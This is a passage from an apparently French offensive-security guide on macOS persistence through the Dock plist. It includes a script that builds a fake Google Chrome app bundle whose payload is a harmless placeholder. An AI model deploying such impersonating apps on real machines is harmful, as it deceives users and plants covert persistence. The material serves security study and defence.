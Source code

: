 - `~/Library/Preferences/com.apple.dock.plist`
- **Déclencheur** : Lorsque l'utilisateur clique sur l'application dans le dock

#### Description & Exploitation

Toutes les applications qui apparaissent dans le Dock sont spécifiées dans le plist : **`~/Library/Preferences/com.apple.dock.plist`**

Il est possible d'**ajouter une application** juste avec :
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
En utilisant un **ingénierie sociale**, vous pourriez **vous faire passer par exemple pour Google Chrome** dans le dock et exécuter en réalité votre propre script :
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Google Chrome</string>
<key>CFBundleIdentifier</key>
<string>com.google.Chrome</string>
<key>CFBundleName</key>
<string>Google Chrome</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

```